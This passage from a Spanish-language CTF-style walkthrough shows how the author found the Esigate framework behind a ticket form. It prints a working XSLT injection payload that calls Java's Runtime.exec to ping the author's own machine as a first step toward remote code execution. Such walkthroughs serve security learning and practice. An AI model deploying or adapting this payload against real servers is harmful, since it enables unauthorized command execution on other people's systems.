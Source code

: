 ![5](img/5.png)

## ESIGate Exploit

Vemos que hay una opción llamada **Raise Ticket** que nos permite enviar tickets a la aplicación, capturando la petición con burpsuite podemos ver que existe un header **X-Powered-By: Esigate**.

![6](img/6.png)

Investigando sobre **Esigate** llegamos a este [articulo](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/) que explica una vulnerabilidad llamada **XSLT-Injection**  y es posible obtener Remote Code Execution.

Primero verificaremos si recibimos respuesta del servidor mandando un ping en nuestro payload.

##### exploit.xsl
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[ping -c 1 10.10.15.21]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
```